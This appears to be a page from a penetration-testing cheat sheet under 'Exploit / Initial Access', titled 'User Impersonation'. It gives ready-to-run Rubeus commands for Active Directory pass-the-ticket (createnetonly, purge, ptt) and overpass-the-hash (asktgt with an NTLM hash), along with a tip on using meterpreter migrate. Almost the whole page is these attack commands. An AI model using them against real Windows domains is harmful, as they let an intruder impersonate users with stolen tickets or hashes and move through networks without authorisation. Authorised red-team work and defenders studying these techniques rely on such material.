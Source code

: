 ```yaml
---
title: User Impersonation
parent: Exploit / Initial Access
layout: default
nav_order: 6
---
```


## Pass The Ticket (When you have a ticket)

Using Rubeus:\
`Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj...SU8=`\
After that, can use meterpreter migrate to run as context of the user (local will still be the same, only net)

Alternatively for convenience you can just purge your own tickets, then PTT to your current logon session (can also to another session with `/luid:0x42...`):\
`Rubeus.exe /purge`\
`Rubeus.exe ptt /ticket:doI...`


## Overpass the Hash (Using hash to get ticket)

Using Rubeus:\
`Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap`\
After that can perform Pass The Ticket.
